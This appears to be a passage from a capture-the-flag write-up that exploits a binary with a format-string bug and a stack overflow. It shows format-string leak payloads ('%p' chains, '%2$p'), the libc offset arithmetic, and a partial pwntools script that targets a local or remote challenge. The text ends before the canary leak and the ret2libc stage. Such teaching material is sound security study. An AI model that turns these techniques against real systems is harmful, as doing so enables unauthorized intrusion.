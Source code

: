 
### Exploit Strategy

1. Use strfmt to leak libc address
2. Use strfmt to leak stack canary
3. Use stack overflow to perform ret2libc

Let's now attach a debugger to this binary, and figure out how we are going to build the strfmt payloads to leak the required information.  I used the IDA Pro `linux_serverx64` for debugging, however, you could also use `gdb`.

### Leaking the libc address

In my debugger, I set a breakpoint at `main`.  The first thing I did was check the address of libc's `read` function from the GOT.PLT.  During my debug session, `read` was loaded at address: `0x7fddde3ac070`.  This will be randomized each time the program is executed, so don't expect this value to match your's.

Next, I used the strfmt vuln to leak a bunch of addresses, the payload I used was `%p.%p.%p.%p.%p......`.  Here I noticed that the second value leaked, `0x7fddde6898c0` is relatively close to libc `read` address.  Notice, that the 5 most significant bytes are the same (`0x00007fdddeXXXXXX`).  We can calculate the offset like so:

```
0x7fddde6898c0(leak) - 0x7fddde3ac070(read) == 0x2dd850
```

So at runtime, we can dynamically calculate the address that libc `read` is loaded at with the following simple equation:

```
leak - 0x2dd850 == read
```

And then the equation for calculating the base address that libc.so is loaded at is also straight forward:
```python
libc_base = read - libc.symbols["read"]
```

Here is what my Python code looks like for calculating the libc base address, notice that I use direct parameter access to leak only the libc address (`%2$p`):

```python
from pwn import *
context(arch='amd64')

# Load libc shared lib
if REMOTE:
    libc = ELF('./libc-2.27.so')
else:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')


# Start the process or create connection to remote server
if REMOTE:
    p = remote(HOST, PORT)
elif DEBUG:
    p = process(['linux_serverx64', '-p4200', FNAME])
else:
    p = process([FNAME])

# Leak libc address
p.recvuntil('> ')
p.sendline('1')
p.recvuntil('payload: ')

payload = '%2$p'
p.sendline(payload)
```